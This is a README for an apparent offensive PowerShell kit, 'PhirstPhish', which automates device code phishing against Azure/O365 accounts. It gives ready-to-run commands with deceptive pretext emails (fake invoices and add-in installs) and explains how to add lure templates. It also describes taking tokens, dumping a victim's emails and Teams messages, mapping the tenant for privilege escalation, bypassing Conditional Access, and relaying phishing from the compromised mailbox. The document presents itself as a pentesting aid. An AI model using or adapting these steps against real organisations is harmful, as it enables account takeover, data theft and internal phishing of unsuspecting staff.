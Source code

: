 ![image](./ascii.png)

### "If you only get one.."

#### Overview
This is a proof-of-concept script kit to assist in device code phishing during Azure/O365 testing. This tool was made to solve one problem - If you only get one chance, and then kicked out immediately, what would you hope you could do in that window? This tool will send a device code in one of the email templates, loot that users email and teams, then send an email as that user to whoever we choose. Use your first target to phish your second from a trusted address. It has optional modules for azurehound and some other recon steps. 

We import TokenTactics and AADInternals, then trigger an authentication flow for the graph and request a device code that is used to sign in. The device code gets replaced in a template and a sign in is prompted for the sending user. This is your pretext. This will give us an access token, and our refresh token. We use our access token with Outlook to send the template to the first user with the codethey need to use. When they enter this code, we get a set of tokens for them. The refresh token allows us to request new access tokens for various other Microsoft services. By refreshing new access tokens for Azure Core Management, MSTeams, Outlook, etc, we're able to move from service to service and pillage what we need without signing in multiple times on multiple sites. This allows for repid exfiltration of data from multiple avenues quicker than an analyst can triage any forthcoming alert. By minting an Outlook token, we can use the new account to send emails to additional targets and control the users mailbox.   

Script will check your OS (Windows or Linux) and install the required modules and Azurehound binary needed for post-exploitation activity automatically. That said, this may be buggy on linux, I haven't put it through it's paces there.

#### Usage
You can use a *very* important project manager as your initial access vector, or someone else you'd like to use to map the tenant and send a link internally to a payload hosted elsewhere. Add modules you wish to run as arguments. You won't need Azurehound, etc, every time, but is a good way to start.

The variable firstuser is the initial one you want to hijack, targetUser is the eventual target you hope to reach. Template will be sent first in the background, if the user approves, the message passed here will be emailed to them as the first victim.

WARNING: When you get your first bite, SAVE THAT TOKEN LOG. Get the users tokens, and use them for your foothold. You should have a ton of recon, use this info with these tokens and az cli/AzureAD module to make your next moves. The TokenLog gets refreshed every time you run the script. You'll lose them if you arent mindful.  

# Install requirements, perform full recon using azuread, AADInternals, and Azurehound modules, attempt to use payroll account to phish a particular accountant
```powershell
$targetUser = "accountant@corpomax.com"
$firstUser = "payroll@corpomax.com"
$messageContent = "Hey guys, <p> do you have any idea what this is? We need to pay it really soon, but we're having trouble accounting for it: https://collections.azurewebsites.net/invoice </p>  <p> Sincerely Yours.</p>"
$subject = "Invoice #3389 for Professional Services "
$template = "adobe" # or chatgpt, bluebeam, bbb, one of the secret ones 

.\wrapper.ps1 -targetUser $targetUser -firstUser $firstUser -messageContent $messageContent -subject $subject -template $template -azurehound -recon -azuread -install
```

# With Azurehound and No Installation, phish a PM to phish IT for installation of required software
```powershell
$targetUser = "helpdesk@corpomax.com"
$firstUser = "MaxBedroom@corpomax.com"
$messageContent = "Hey guys, <p> our client is asking us to install an addin, something to do with the 'net' framework and PDFs, sounds lame, haha. Can you take a look and see if we can get it installed? Thy're really breathing down our necks https://pdfutil.azurewebsites.net/addin </p> <p> Thanks guys you're the best, they should pay you more! </p> <p> Sincerely Yours.</p>"
$subject = "Software for Project Management"
$template = "bluebeam" # or chatgpt, bluebeam, bbb, one of the secret ones 

.\wrapper.ps1 -targetUser $targetUser -firstUser $firstUser -messageContent $messageContent -subject $subject -template $template -azurehound
```

# Phishing Only
Similar scenario, but trying  to use a new employee to get to a full administrator user via the 'chatgpt' template, a little quicker with no installation or Azurehound switch 

```powershell
$targetUser = "admin@corpomax.com"
$firstUser = "newemployee@corpomax.com"
$messageContent = "Hey guys, <p> the client is asking us to install an addin, something to do with the 'period net' framework and PDFs, sounds gross, haha. Can you take a look and see if we can get it installed? Thy're really breathing down our necks https://pdfutil.azurewebsites.net/addin </p> <p> Thanks guys you're the unsung heroes of CorpoMax, they should pay you more! </p> <p> Sincerely Yours.</p>"
$subject = "Software for Project Management"
$template = "chatgpt"

.\wrapper.ps1 -targetUser $targetUser -firstUser $firstUser -messageContent $messageContent -subject $subject -template $template
```

#### Modules
It's modular, azurehound is one, AADInternals recon, AzureAD enumeration, etc. Recon.ps1, azuread.ps1, azurehound.ps1 are standalones that take access tokens or whatever params needed to do the thing. You can easily rip these out and use them in your own madness, if you want. I tried to make things as flexible as possible. Once you've mapped the tenant, performed recon and built your new lists you may as well as just use it for additional phishing and omit those switches. 

#### Templates
Adding a template to this is really easy. Look at the ones here and Replace.ps1, you can see we're looking for and replacing '(((VERIFICATION)))' in the html body. This is the device code that gets generated. If you place one in a new template and add a couple lines of code to Replace.ps1 and Next.ps1 you can use your own.

For replace.ps1, create a new elseif statement for the new template and a template for Chipotle, name the template chipotleHTML.htm and make sure it's creating new version by providing a destination path/filename for what 'replace' creates. I have it creating it in the template folder, it could be a temp folder, you can do whatever you want, I just like to use the repo folder as a workspace. Htm/HTML doesnt matter, consistency does, though. 

```powershell
elseif($template -eq "chipotle"){
    $sourceFile = ".\Templates\chipotleHTML.htm"
    $destinationFile = ".\Templates\chipotle.htm"
}
```

For next.ps1, add a switch and a subject, we need to parse what you want from the command line. If it's 'chipotle', put chipotle, 
```powershell

switch ($template) {
# Add a block with path and subject inside the template switch case
...  
    "chipotle" { 
        $templatePath = ".\Templates\chipotle.htm"
        $subjects = @("Chipotle wants you back.")
        break 
    }
...

}
```

#### Phase 1 - Recon
If modules are specified, once you receive an access token, the script will automatically perform requested recon of tenant, user and groups using AADInternals or Azurehound. Can generate a list of users with detailed information (SIDs, valid sessions, phone number, identities) is exported and useable user list for the spreader function is generated. Groups, users, internal recon, etc output to json in the same directory as the script.

![image](https://github.com/MelloSec/PhirstPhish/assets/65114647/01e9fd43-b20f-48c2-a8b3-9fdc1b5ae6ad)

![image](https://github.com/MelloSec/PhirstPhish/assets/65114647/83a3398c-bf41-47e3-bfa6-e480bddd0fc2)

Using the latest version of Azurehound for your platform, the Azure tenant will be mapped and output to a format you can load into Neo4j for graphing attack paths. This will show you what the newly compromised account has access to and possible ways you can escalate your privileges across the tenant to gain Global Administrator / whatever you desire.

![image](https://github.com/MelloSec/PhirstPhish/assets/65114647/ec598ff5-e82d-4a36-acfb-f887e9b18b55)


#### Phase 2 - Loot
It will dump the compromised users last 200 emails from their inbox and all their teams messages by default. Optional modules include azureHound, azureAd and Recon. If the azureAd module is used, a user list is generated for further phishing attacks, as well as groups. if the recon module is used, AADInternals authenticated recon modules will run.  

<b><u>WARNING:</u></b> Just to re-iterate that last bit.. this will export a lot of sensitive information to the folder you run this from, as that is it's intended purpose. Please clean up your workspace / don't commit the loot to main 


#### Phase 3 - Spread
Specifying "-targetUser" and "-messageContent" will let you pass an email address and phishing pretext to use the compromised account as an internal relay and attempt to move laterally or capitalize on a trusted relationship with an external third party.


#### Extras

V2 - Included the V2 fork of TokenTactics in the repo, just so you know it exists. It has additional features but at the time I made this tool they weren't playing nice and it wasn't worth trying to make it work. I think that's mostly fixed, if you want to try this script with V2, modify PhirstPhish.ps1 and insert the URL to the V2 repo https://github.com/f-bader/TokenTacticsV2 and try it? Shouldn't take much to make that work, but will give you access to the extended Continus Access Evaluation tokens, if ya nasty: https://learn.microsoft.com/en-us/entra/identity/conditional-access/concept-continuous-access-evaluation

RoadTools.ps1 - proof of concept that uses TokenTactics to generate a token for RoadTools which will gather conditional access policy info and register a device that could bypass Conditonal Access. As is, play with it, make it your own.


#### Acknowledgements 

Huge thanks to Bobby Cook https://github.com/boku7 and Beaux Bullock https://github.com/dafthack for all the amazing Azure/O365 pentesting resources and classes that got me started 

Shout-out to Steve Borosh https://github.com/rvrsh3ll for the amazing TokenTactics module used in Refreshing tokens and certain post-ex activites here, picking apart your code was hugely helpful in understanding this stuff.

Shout-out to the venerable Dr Nestori Syynimaa (@DrAzureAD), too, for laying all the groundwork with AADInternals https://github.com/Gerenios/AADInternals, used here extensively. Hell of a toolbox and his blog is like a free AzureAD pentesting e-book.

PRs welcome!
